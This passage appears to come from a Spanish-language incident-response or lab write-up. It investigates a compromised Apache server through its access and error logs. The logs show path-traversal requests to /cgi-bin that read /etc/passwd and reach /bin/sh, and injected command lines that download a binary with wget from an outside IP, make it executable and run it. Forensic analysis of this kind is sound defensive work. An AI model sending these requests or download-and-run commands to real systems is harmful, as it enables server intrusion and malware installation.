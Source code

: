 ```bash 
176.10.99.200 - - [06/Oct/2021:23:13:22 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
193.32.127.156 - - [06/Oct/2021:23:26:47 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
193.32.127.156 - - [06/Oct/2021:23:27:51 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
193.32.127.156 - - [06/Oct/2021:23:28:02 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
193.32.127.156 - - [06/Oct/2021:23:30:45 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
193.32.127.156 - - [06/Oct/2021:23:32:42 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
5.183.209.217 - - [06/Oct/2021:23:36:55 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
5.183.209.217 - - [06/Oct/2021:23:39:17 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
5.183.209.217 - - [06/Oct/2021:23:39:41 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 121432 "-" "curl/7.64.0"
5.183.209.217 - - [06/Oct/2021:23:40:02 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
18.27.197.252 - - [06/Oct/2021:23:45:36 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
``` 

Vemos varias respuestas con código 200, el atacante logró acceder al servidor. Ahora tenemos que deterinar si intentó instalar algo en sus tareas de post-explotación. Para hacerlo fácil podemos ir a los logs de error que estan en el mismo directori que el fichero de access_log. 
Primeramente vemos bastantes error relacionados al recorrido de directorios, asi que filtremos por comandos típicos que usan los atacantes, en este caso, dar permisos de ejecición a un fichero. 
```bash
Lenovo@DESKTOP-8IOU1HC MINGW64 /e/[root]/var/log/apache2
$ grep "chmod +x" error_log
[Thu Nov 11 19:07:41.956674 2021] [dumpio:trace7] [pid 804:tid 139978797401856] mod_dumpio.c(103): [client 141.135.85.36:51774] mod_dumpio:  dumpio_in (data-HEAP): echo; wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;
[Thu Nov 11 19:07:41.962142 2021] [cgi:error] [pid 804:tid 139978797401856] [client 141.135.85.36:51774] AH01215: /bin/bash: line 1: `echo; wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;': /bin/bash
[Thu Nov 11 19:07:55.978392 2021] [dumpio:trace7] [pid 803:tid 139978789009152] mod_dumpio.c(103): [client 141.135.85.36:51800] mod_dumpio:  dumpio_in (data-HEAP): echo; /usr/bin/wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;
[Thu Nov 11 19:07:55.984379 2021] [cgi:error] [pid 803:tid 139978789009152] [client 141.135.85.36:51800] AH01215: /bin/bash: line 1: `echo; /usr/bin/wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;': /bin/bash
[Thu Nov 11 19:08:22.859342 2021] [dumpio:trace7] [pid 803:tid 139978898114304] mod_dumpio.c(103): [client 141.135.85.36:51858] mod_dumpio:  dumpio_in (data-HEAP): echo; /usr/bin/wget -O /tmp/dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x  /tmp/dk86; /tmp/dk86 &;
[Thu Nov 11 19:08:22.865585 2021] [cgi:error] [pid 803:tid 139978898114304] [client 141.135.85.36:51858] AH01215: /bin/bash: line 1: `echo; /usr/bin/wget -O /tmp/dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x  /tmp/dk86; /tmp/dk86 &;': /bin/bash
[Thu Nov 11 19:09:46.456875 2021] [dumpio:trace7] [pid 804:tid 139978822579968] mod_dumpio.c(103): [client 141.135.85.36:52014] mod_dumpio:  dumpio_in (data-HEAP): echo; chmod +x /tmp/dk86;

```
